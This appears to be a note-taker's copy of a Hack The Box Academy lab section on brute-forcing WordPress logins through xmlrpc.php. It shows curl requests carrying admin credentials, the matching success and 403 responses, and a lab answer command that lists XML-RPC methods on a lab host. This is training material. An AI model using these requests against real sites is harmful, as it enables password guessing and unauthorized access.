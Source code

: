```yaml
---
source: https://enterprise.hackthebox.com/academy-lab/7282/3329/modules/17/88
---
```

## Login

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request

```shell
p3ta@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a `403 faultCode` error.

#### Invalid Credentials - 403 Forbidden

```shell
p3ta@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

These last few sections introduced several methods for performing manual enumeration against a WordPress instance. It is essential to understand manual methods before attempting to use automated tools. While automated tools greatly speed up the penetration testing process, it is our responsibility to understand their impact on the systems we are assessing. A solid understanding of manual enumeration methods will also assist with troubleshooting should any automated tools not function properly or provide unexpected output.
# Question:
Search for "WordPress xmlrpc attacks" and find out how to use it to execute all method calls. Enter the number of possible method calls of your target as the answer.

```
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://83.136.248.229:47563/xmlrpc.php | grep string | wc -l
```
![[Pasted image 20231215151913.png]]